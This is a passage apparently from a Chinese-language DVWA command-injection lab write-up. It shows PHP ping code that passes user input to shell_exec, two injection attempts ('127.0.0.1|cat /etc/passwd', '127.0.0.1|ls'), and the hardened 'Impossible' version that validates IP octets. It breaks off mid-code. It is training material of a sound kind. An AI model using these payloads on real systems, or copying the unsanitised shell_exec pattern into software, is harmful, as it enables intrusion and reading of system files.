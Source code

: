 ```
    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 

    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 

?> 
```
攻擊1==>繞過黑名單(blacklist)過==>把空白拿掉 ==>殘念
```
127.0.0.1|cat /etc/passwd
127.0.0.1|cat%20/etc/passwd
```
攻擊2==>繞過黑名單(blacklist)過==>使用 | ==>部分有用
```
127.0.0.1|ls
```


### Impossible<<至高無上防禦工法>>

更嚴謹的防禦==>這下打不進去了吧!==>若你打得進去我請你吃年肉麵
```
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $target = $_REQUEST[ 'ip' ]; 
    $target = stripslashes( $target ); 

    // Split the IP into 4 octects 
    $octet = explode( ".", $target ); 

    // Check IF each octet is an integer 
    if( ( is_numeric( $octet[0] ) ) && ( is_numeric( $octet[1] ) ) && ( is_numeric( $octet[2] ) ) && ( is_numeric( $octet[3] ) ) && ( sizeof( $octet ) == 4 ) ) { 
        // If all 4 octets are int's put the IP back together. 
        $target = $octet[0] . '.' . $octet[1] . '.' . $octet[2] . '.' . $octet[3]; 

        // Determine OS and execute the ping command. 
        if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
            // Windows 
            $cmd = shell_exec( 'ping  ' . $target ); 
        } 
        else { 
            // *nix 
            $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
        } 

        // Feedback for the end user 
        echo "<pre>{$cmd}</pre>"; 
    } 
    else { 
        // Ops. Let the user name theres a mistake 
```